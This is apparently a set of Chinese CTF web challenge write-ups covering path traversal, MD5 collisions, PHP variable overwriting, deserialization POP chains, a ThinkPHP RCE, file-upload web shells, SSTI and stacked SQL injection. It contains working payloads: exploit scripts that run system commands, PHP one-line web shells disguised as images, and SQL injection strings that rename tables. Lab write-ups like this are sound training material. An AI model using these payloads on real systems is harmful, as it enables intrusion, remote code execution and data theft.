


# [NISACTF 2022]babyupload


访问/source，下载源文件


.被过滤了

但注意到（看题解才注意到）


有一个os.path.join


## **os.path.join绝对路径拼接漏洞**

os.path.join(path,*paths)函数用于将多个文件路径连接成一个组合的路径。第一个函数通常包含了基础路径，而之后的每个参数被当作组件拼接到基础路径之后。

然而，这个函数有一个少有人知的特性，如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将视为绝对路径


将根目录中flag文件的内容输出到了/file下的uuid文件，直接访问就行


# [GDOUCTF 2023]受不了一点


## md5强相等碰撞

**这里涉及到md5绕过，对于要求md5强相等（用数组也可）的题目，这里给出一对碰撞：**

```
$s1 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"
```

```
$s2 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%5f%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%f3%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%e9%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%13%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%a8%1b%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%39%05%39%95%ab"
```


简单的

最后一串if，需要用到变量覆盖（可是我没绕过最后的if就出flag了），这里看到大佬的payload是`123=flag&flag=123`

**大佬理解是这样的：**

1. 先是需要绕过`if(isset($_GET['flag']) && isset($_POST['flag']))`，即不能传入`flag`，因此用`123`作为变量名（猜测应该是顺序检测的？即此处检测到传入了`123=flag`，那么后面的`flag=123`就被绕过了？）
2. 其次是绕过`if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag')`，这里需要`$flag=flag`，根据上面的payload，我们知道`$123`将`flag`还给了`$flag`
3. 两个`foreach()`是用来做循环的，即：将GET或POST获得的参数分别给到`$key`和`$value`，作为键值对，再进行循环体内的操作。例如传入的`123=flag`，那么就有`$key=123 & $value=flag`
4. 这里没有用POST，也就是第一个`foreach()`，而是使用第二个`foreach()`，即利用GET传参。原因是，在第二个循环体内，有：`$$key = $$value;`，`$$`相当于一个套娃，例如：

1. 根据上述说到的，将GET传入的参数作为键值对，那么第一次循环就有`$key = 123 & $value = flag`，在循环体内就有`$$key = $$value`，也就是`$123 = $flag`，这一步将最后我们需要`echo`的变量`$flag`暂存到了变量`$123`里；而第二次循环有`$key = flag & $value = 123`，在循环体内相当于`$flag = $123`，也就是将`$flag`的原先值还给了`$flag`。

2. 但是有个问题是，`$flag`本身就没变过值，为什么还要绕一步呢？不是太明白这里出题人想考什么，我试着传入`flag=`，令其为空去绕过`if(isset($_GET['flag']) && isset($_POST['flag']))`，结果它同时也绕过了`if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag')`，但最终因为`foreach()` 的作用，导致`$flag`为空而无回显了

   **解法二**

其中这个函数的意义是这样的
foreach ($_POST as $key => $value) {
$$key = $value;
将上传的post分为$key和 $value两个部分
如上传1=flag
那么$key=1 $value=flag
$$key=$value这里相当于
$flag=$value
也就是$1=flag
之后
foreach ($_GET as $key => $value) {
$$key = $$value;
上传1=flag
可以得到$1=$flag
上传flag=1
得到$flag=$1
也就相当于$flag=$flag
这样就绕过了变量覆盖
就可以执行echo $flag
得到flag

# [HCTF 2018]Warmup


### 代码审计

```
 class emmm
  {
    public static function checkFile(&$page)
    {
      $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

定义了一个emmm类，有静态方法checkFile来检查要包含的文件是否在白名单中。白名单是一个关联数组，键 `"source"` 对应的值是 `"source.php"`，键 `"hint"` 对应的值是 `"hint.php"`

```
if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
```

要求page存在且是字符串，否则返回you can't see it

```
 if (in_array($page, $whitelist)) {
                return true;
            }
```

检查传入的$page是否直接在白名单中存在，如果存在，返回true

```
 $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
```

首先使用mb_strpos函数找到$page中第一个问号的位置（没有的画会在最后加一个?），然后使用mb_substr函数将问号之前的部分作为$_page进行处理

```
if (in_array($_page, $whitelist)) {
                return true;
            }
```

再次检查传入的$_page是否直接在白名单中存在

```
$_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

将**$_page**进行URL解码，并重复之前的处理步骤，如果**$_page**在白名单中存在，返回true。

如果上述条件都不满足，则输出"you can't see it"并返回false。

```
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
```

检查$_REQUEST['file']是否存在且为字符串类型，并调用emmm::checkFile方法进行检查。如果返回值为true，则通过include语句包含$_REQUEST['file']指定的文件并终止程序执行，否则输出一个图片标签


尝试hint.php

```
source.php/?file=hint.php
```


回显成功，flag在ffffllllaaaagggg

**过程**

传入file=hint.php，首先检查'hint.php'是否是一个字符串，它是字符串，条件通过；

检查'hint.php'是否在白名单中（白名单包括hint.php和source.php），在，继续执行后面的代码；

对'hint.php'执行mb_substr函数，但是函数内一个参数是来自另一个函数mb_strpos的返回值，因此我们先看mb_strpos函数，使用.进行字符连接，即连接了一个问号字符 '?'，得到hint.php?

然后查找'?'在字符串'hint.php?'中第一次出现的位置，从0开始算，返回8，即length=8

接下来我们执行mb_substr函数，即 mb_substr('hint.php',0,8)

从字符串中的第一个字符处开始，返回8个字符，其实还是返回的hint.php；

然后对返回的内容进行url解码，重复执行上面的检查和截取操作。

我们只需要传入一个在白名单内的文件名（source.php或者hint.php），并添加上问号，这样可以保证每次找去用于检查的内容都在白名单，返回true。

**payload：**

```
source.php?file=hint.php?/../../../../ffffllllaaaagggg
source.php?file=source.php?/../../../../ffffllllaaaagggg
```

**source.php一般是在html目录下，往上是www，var，然后到根目录，flag一般就放在根目录下面，这里还有一个hint.php?/或者source.php?/，因此需要返回四层才能到根目录。**


# [HNCTF 2022 Week1]What is Web

（第一遍找还没找到，大意了）


# [NISACTF 2022]babyserialize


### 一、理清pop链并进行标注

 先找eval、flag这些危险函数和关键字样（这就是链尾），找到[eval函数](https://so.csdn.net/so/search?q=eval函数&spm=1001.2101.3001.7020)，且参数是txw4ever


可以利用这个txw4ever，来调用系统函数实现命令执行

OK，下面开始教你们做标注（大佬的题解）

首先我们找到第一步用到的参数所在位置，并在后面标注清楚需要传入的内容

1可以理解为第一步，shell表示我们这里需要传入一个类似shell的东西或者用system标注

传给谁就标注在谁的后面，这里表示要传给txw4ever，而txw4ever是在NISA类下


标注好后，我们回到PHP源码，往eval上面看，发现需要触发__invoke()函数

__invoke是对象被当做函数进行调用时就会触发，我们去找类似$a()这种的（所有类里面找）

找到$bb()，它对应的参数是su，且在类Ilovetxw里


同理我们进行标注，表示要调用参数su，传入NISA类


标注好后，我们回到PHP源码，往bb上面看，发现需要触发__toString()函数 

**__ToString⽅法是当对象被当做字符串的时候会自动调用**

继续在所有类里面找，找到strtolower函数，该函数是将字符串转换成小写


 对应参数 a ，在four类里，我们找到a的位置继续进行标注

因为这里还存在一个if的判断语句，需要符合才能执行后面语句，所有还需要给fun也赋值

因为fun是私有变量，我们最好直接在类里面修改

原来$fun='abc'; 将它修改为sixsixsix



回到PHP源码，继续往上我们找到__set函数

__set是对不存在或者不可访问的变量进行赋值就会自动调用

于是我们找到huang，我们可以看到在Ilovetxw类里面并不存在fun这个参数


同样进行标注


依次往上追到__call函数，__call是对不存在的方法或者不可访问的方法进行调用就自动调用


找到nisa，该类中并不存在这个方法，再往上就找到wakeup函数， 即我们的链头了

该函数在使用unserilize之前就会触发。

以及相关的标注：


### 二、如何编写相关脚本

```
<?php

class NISA{
    public $fun="show_me_flag";
    public $txw4ever; // 1 shell
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }
     
    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }

}

class TianXiWei{
    public $ext; //5 Ilovetxw
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x);
    }
}

class Ilovetxw{
    public $huang; //4 four
    public $su; //2 NISA

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0];
    }
     
    public function __toString(){
        $bb = $this->su;
        return $bb();
    }

}

class four{
    public $a="TXW4EVER"; //3 Ilovetxw
    private $fun='sixsixsix'; //fun = "sixsixsix

    public function __set($name, $value)
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }

}

$n = new NISA();
$n->txw4ever = 'System("cat /f*");';
$n->fun = "666";
$i = new Ilovetxw();
$i->su = $n;
$f = new four();
$f->a = $i;
$i = new Ilovetxw();
$i->huang = $f;
$t = new TianXiWei();
$t->ext = $i;
echo urlencode(serialize($t));
```

我们就根据刚才标注的12345顺序来写，用到哪个类时，必须先用new实例化一遍

（哪怕重复用到了某个类，也需要重新实例化一遍，比如上面的Ilovetxw类）

给大家开个头吧，我们先用到NISA类，所以实例化NISA类：$n = new NISA();

$n->txw4ever表示调用这个类里面的txw4ever，后面传入我们想要传入的内容即可

至于为什么改fun的值，我们后面再说；

至此我们完成了1步骤，继续往下看，来到2

我们用到Ilovetxw类，将其实例化，同理根据标注进行调用传参即可

这样我们就可以写出后面所以的脚本了


### 三、过滤与绕过

#### 1、waf的绕过

这里存在两个需要绕过的地方，源码有给提示

找到hint函数位置，在第一个类，如何绕过这个函数 ，只需让if语句判断不成立即可

所以你现在知道为什么前面我们需要修改fun的值了吧。

如果没有改fun的值，你只能得到一个提示，flag在根目录


#### 2、preg_match的绕过

preg_match用来进行正则匹配，但没给匹配的内容，用的......，暗示我们存在关键字的过滤，

这里system被过滤掉了，如果我们原封不动的使用system，不出意外会返回 something wrong


# [HNCTF 2022 Week1]Interesting_http


没什么好说的，改改值就行


# [SWPUCTF 2022 新生赛]where_am_i


搜索古迹酒店电话2886112888，输入得到


# *[SWPUCTF 2022 新生赛]ez_rce*





#### ThinkPHP RCE

推荐博客：[Think PHP漏洞总结（全系列）](https://www.cnblogs.com/lingzhisec/p/15728886.html)
去找 5.0.x 版本的 payload 。**（这里日后再详细研究一番）**

这里直接使用 payload ：

```
/NSS/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=eval.php&vars[1][]=<?php eval($_POST['cmd']);?>
```

返回


此时已经在当前目录下写入了一个 eval.php 文件。


# [GXYCTF 2019]BabyUpload

首先测试发现有后缀过滤，

尝试使用这个一句话木马，也被限制

```
<?php @eval($_POST['shell']);?>
```

于是尝试

```
GIF89a
<script language="php">eval($_REQUEST['cmd']);</script>
```

同时将后缀改为jpg成功上传


发现，将上传的文件放到了upload目录下的一个子目录，导致我们不能使用.user.ini文件，而是要使用.htaccess配置文件。


不能直接上传，把MIME类型修改为image/jpeg试一下


# [SWPUCTF 2022 新生赛]xff

打开靶机显示**Must be accessed from Xiaohong's own computer.**

先用hackbar添加**X-Forwarded-For**到**127.0.0.1**

返回显示**Must be jump from Home Page.**

再次利用hackbar添加**Referer**到**127.0.0.1**

## Referer请求头

**`Referer` 请求头是 HTTP 协议里的一个字段，用来告诉服务器——本次请求是从哪个页面跳转过来的。**


# [HNCTF 2022 Week1]easy_upload

直接上传shell.php

```
<?php eval($_POST[shell]);?>
```


# [SWPUCTF 2022 新生赛]js_sign


网址：[Tap Code - 许愿星](https://www.wishingstarmoye.com/ctf/tapcode)

# [NISACTF 2022]popchains


构造pop链，可以看到**Try_Work_Hard**类的**append()**方法中有个**include**，所以我们可以尝试php伪协议，

在**__invoke()**中有**appen()**方法，***__invoke()  当尝试将对象调用为函数时触发***，

也就是说要让Try_Work_Hard类的对象被当做函数调用以触发**__invoke()**

Make_a_Change类中，**__get()**方法内返回$function()。因此我们可以令$function等于一个Try_Work_Hard类的对象，这样当**__get()**方法内返回$function()时就可以触发**invoke()。**

`__get()`方法在访问私有或不存在的成员属性的时候自动触发，我们看到在`Road_is_Long`类的`__toString()`方法中，若我们令`$this->string = new Make_a_Change()`，那么`$this->string->page`就会触发`__get()`方法，因为`Make_a_Change`类中没有`$page`

`__toString()`方法，它需要把类当作字符串使用时触发。而在其本身有个`__wakeup()`方法，里面存在正则匹配，因此我们只需要令`page`成为一个`Try_Work_Hard`类即可。`__wakeup()`方法会在进行反序列化的时候自动触发，我们不用管


*需要两个*`Road_is_Long`*类的对象，我们对其命名为a和b，a在外层触发*`__wakeup()`*，b作为a的*`page`*，在a中被作为字符使用，从而触发b自身的*`__toString()`

**关键点**：`preg_match($pattern, $subject)` 会把 **`$subject` 转成字符串**。

 如果 `$subject` 是**对象**，PHP 会尝试调用它的 **`__toString()`**。

因此我们让**外层 A** 的 `page` 变成**对象 B**；当 **A 的 `__wakeup()`** 执行到
 `preg_match("/.../", $this->page)` 时，会**强制把 B 当成字符串**，从而**自动触发 `B->__toString()`**。


**最后的pop链**

```
Road_is_Long::__wakeup() -> Road_is_Long::__toString() -> Make_a_Change::__get() -> Try_Work_Hard::__invoke() -> Try_Work_Hard::append()
```

**payload**

```
<?php
class Road_is_Long{
    public $page;
    public $string;
}

class Try_Work_Hard{
    protected  $var="php://filter/convert.base64-encode/resource=/flag";
}

class Make_a_Change{
    public $effort;
}

$f = new Try_Work_Hard();
$m = new Make_a_Change();
$m->effort = $f;
$b = new Road_is_Long();
$b->string = $m;
$a = new Road_is_Long();
$a->page = $b;

echo urlencode(serialize($a));
?>
```


## 魔术方法

**定义：**php规定以两个下划线（__）开头的方法都保留为魔术方法，不需要理解的太复杂，魔术方法就是一些特殊的函数，它们存在一些特定的触发条件。

**常见的几个魔术方法：**

| 名称          | 触发时机                                    |
| :------------ | :------------------------------------------ |
| __construct() | 在对象实例化（创建对象）的时候自动触发      |
| __destruct()  | 在销毁对象的时候自动触发                    |
| __wakeup()    | 执行unserialize()时，先会调用这个函数       |
| __sleep()     | 执行serialize()时，先会调用这个函数         |
| __call()      | 在对象上下文中调用不可访问的方法时触发      |
| __get()       | 访问私有或不存在的成员属性的时候自动触发    |
| __set()       | 对私有成员属性进行设置值时自动触发          |
| __isset()     | 对私有成员属性进行 isset 进行检查时自动触发 |
| __unset()     | 对私有成员属性进行 unset 进行检查时自动触发 |
| __toString()  | 把类当作字符串使用时触发                    |
| __invoke()    | 当尝试将对象调用为函数时触发                |

# [NISACTF 2022]midlevel


右上角有个ip，尝试hackbar修改xff


可以修改，测试{6*6}


证明这里存在SSTI，之后尝试**{system('cat /flag')}**没有回显

接着测试**{if phpinfo()}{/if}**，说明可以执行php函数

```
{if system('ls /')}{/if}
```


尝试

```
{if system('cat /flag')}{/if}
```

没有回显

使用

```
{if show_source('/flag')}{/if}
```


# *[强网杯 2019]随便注*


尝试注入

1，用union联合查询

　　第一步、尝试测试注入点（一些小tips：利用引号，and 1=1， or 1=1之类的）判断是字符型还是数字型

　　1' 报错 

　　1'# 不报错，正常回显 

　　1' and 1=1# 不报错，正常回显 

　　1' or 1=1# 不报错，正常回显

　　说明存在SQL注入

　　第二步、尝试用order by语句查询表的列数

　　1' order by 1;#不报错，正常回显

　　1' order by 2;#不报错，正常回显

　　1' order by 3;#报错

　　说明这张表有三列

　　第三步、尝试用union select 找到回显位


　　发现回显过滤了关键字

4.既然select关键字无法使用，我们可以通过堆叠注入的方式，来绕过select关键字。

5.查看数据库名：

```
1';show databases;#
```


6.查看数据表：`1';show tables;#`


7.我们先来看一下第一个表1919810931114514的表结构，有两种方式：

方式一：

```
1'; show columns from tableName;#
```

方式二：

```
1';desc tableName;#
```

注意，如果tableName是纯数字，需要用`包裹，比如`

```
1';desc `1919810931114514`;#`
```

```
1';show columns from `1919810931114514`;#
```

获取到字段名为flag：


select关键字被过滤了

### 方法一

通过预编译的方式拼接select 关键字：

```
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#
```


**先把 SQL 语句的结构发送给数据库编译好（prepare）**

**再单独发送参数（execute）让数据库执行**

### 方法二

也可以通过修改表名和列名来实现。我们输入1后，默认会显示id为1的数据，可以猜测默认显示的是words表的数据，查看words表结构第一个字段名为`id`我们把words表随便改成words1，然后把1919810931114514表改成words，再把列名flag改成id，就可以达到直接输出flag字段的值的效果然后通过`1' or 1 = 1 #`，成功获取到flag。

修改表名：`ALTER TABLE 旧表名 RENAME TO 新表名；`

修改字段：`ALTER TABLE 表名 CHANGE 旧字段名 新字段名 新数据类型；`

```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table `words` change flag id varchar(100);
```


### 方法三

### .handle

handle不是通用的SQL语句，是Mysql特有的，可以逐行浏览某个表中的数据，格式：

```text
打开表：
HANDLER 表名 OPEN ;
查看数据：
HANDLER 表名 READ next;
关闭表：
HANDLER 表名 READ CLOSE;
```

```
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;
```

